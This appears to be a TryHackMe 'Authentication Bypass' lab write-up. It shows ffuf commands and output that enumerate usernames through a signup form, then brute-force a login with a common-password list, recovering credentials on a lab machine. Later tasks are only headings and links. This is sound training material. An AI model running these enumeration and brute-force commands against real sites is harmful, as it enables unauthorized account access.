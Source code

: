 [TryHackMe | Authentication Bypass](https://tryhackme.com/room/authenticationbypass)

# TryHackMe-Authentication-Bypass
`Learn how to defeat logins and other authentication mechanisms to allow you access to unpermitted areas.`

## Task 1 Brief

## Task 2 Username Enumeration
http://machine_ip/customers/signup

```
root@ip-10-10-25-193:~# ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.50.205/customers/signup -mr "username already exists"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.50.205/customers/signup
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&email=x&password=x&cpassword=x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: username already exists
________________________________________________

admin                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
robert                  [Status: 200, Size: 3720, Words: 992, Lines: 77]
simon                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
steve                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
:: Progress: [10164/10164] :: Job [1/1] :: 1503 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
root@ip-10-10-25-193:~# 
```

[ffuf/ffuf: Fast web fuzzer written in Go](https://github.com/ffuf/ffuf)

## Task 3 Brute Force
http://machine_ip/customers/login

```
root@ip-10-10-25-193:~# nano valid_usernames.txt
root@ip-10-10-25-193:~# ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.50.205/customers/login -fc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.50.205/customers/login
 :: Wordlist         : W1: valid_usernames.txt
 :: Wordlist         : W2: /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=W1&password=W2
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 200
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1]
    * W1: steve
    * W2: thunder

:: Progress: [400/400] :: Job [1/1] :: 229 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
root@ip-10-10-25-193:~# 
```

## Task 4 Logic Flaw
http://machine_ip/customers/reset

## Task 5 Cookie Tampering
[TryHackMe | HTTP in detail](https://tryhackme.com/room/httpindetail)

[CrackStation - Online Password Hash Cracking - MD5, SHA1, Linux, Rainbow Tables, etc.](https://crackstation.net/)
